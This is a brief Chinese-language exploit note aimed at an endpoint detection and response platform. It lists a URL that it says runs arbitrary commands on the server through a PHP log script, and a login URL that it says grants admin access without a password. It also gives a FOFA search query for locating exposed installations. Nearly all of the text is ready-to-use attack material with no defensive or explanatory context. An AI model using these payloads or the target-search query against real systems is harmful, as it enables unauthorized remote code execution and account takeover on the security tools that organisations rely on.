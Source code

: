 	EDR RCE
	https://ip+端口/tool/log/c.php?strip_slashes=system&host=id 即可执行命令
	终端检测响应平台任意用户登录
	fofa: title="终端检测响应平台"
	target+/ui/login.php?user=admin 即可直接登录
